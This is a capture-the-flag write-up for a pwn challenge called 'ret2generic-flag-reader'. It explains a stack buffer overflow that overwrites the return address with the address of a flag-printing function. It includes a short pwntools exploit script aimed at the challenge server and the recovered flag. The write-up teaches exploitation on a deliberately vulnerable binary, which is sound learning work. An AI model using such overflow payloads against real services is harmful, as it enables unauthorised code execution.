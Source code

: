 # ret2generic-flag-reader

<p align="center">
    <kbd><img src="images/ret2generic-1.png" caption="Challenge" /></kbd><br/>
</p>

From the source code, I understand that I need to overwrite the ret address to the address of super_generic_flag_reading_function_please_ret_to_me() function
<p align="center">
    <kbd><img src="images/ret2generic-2.png" caption="Challenge" /></kbd><br/>
</p>

Since the variable "comments_and_concerns" has a size of 32, I need to spray 40 random characters (32 bytes for the variable “comments_and_concerns” and 8 bytes for the stored rbp) and then the address of super_generic_flag_reading_function_please_ret_to_me() function

To start, find the address of super_generic_flag_reading_function_please_ret_to_me() function <br />
`$ p super_generic_flag_reading_function_please_ret_to_me` <br />
<p align="center">
    <kbd><img src="images/ret2generic-3.png" caption="Challenge" /></kbd><br/>
</p>

Create a script to perform the exploit
```
from pwn import *

payload = ("A"*40).encode()
eip = p64(0x4011f6)
payload = payload + eip
p = remote("mc.ax", 31077)
#p = process('./ret2generic-flag-reader')
p.recvuntil("this is genius")
p.sendline(payload)
p.interactive()
```

<p align="center">
    <kbd><img src="images/ret2generic-4.png" caption="Challenge" /></kbd><br/>
</p>

Flag: `flag{rob-loved-the-challenge-but-im-still-paid-minimum-wage}`